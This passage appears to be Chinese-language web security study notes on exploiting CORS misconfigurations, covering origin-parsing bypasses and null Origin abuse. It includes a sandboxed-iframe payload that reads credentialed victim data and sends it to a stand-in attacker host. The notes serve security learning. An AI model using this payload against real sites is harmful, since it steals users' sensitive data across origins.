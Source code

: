 ![](2023-05-22-16-14-51.png)  
`victimdomain.com{.attacker.com`浏览器实际解析时为`attacker.com`.  

https://www.corben.io/advanced-cors-techniques/  
https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397
### null origin Header
Origin header头支持值为null,在以下情况可能会发送null Origin Header.  
1. 跨域重定向.
2. 序列化数据请求.
3. 使用file:协议的请求
4. 沙盒跨域请求.
有些应用为了支持本地开发时方便,也会将null值加入白名单中,这导致可以通过null origin Header来跨域读取数据.  
通过沙盒的iframe标签发送带null origin Header的跨域请求.
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```
### 存在XSS的受信任源
当正确配置CORS名单时,如果白名单中的域存在XSS,那么则可以利用存在XSS的网站通过CORS来获取网站的敏感数据.
```
```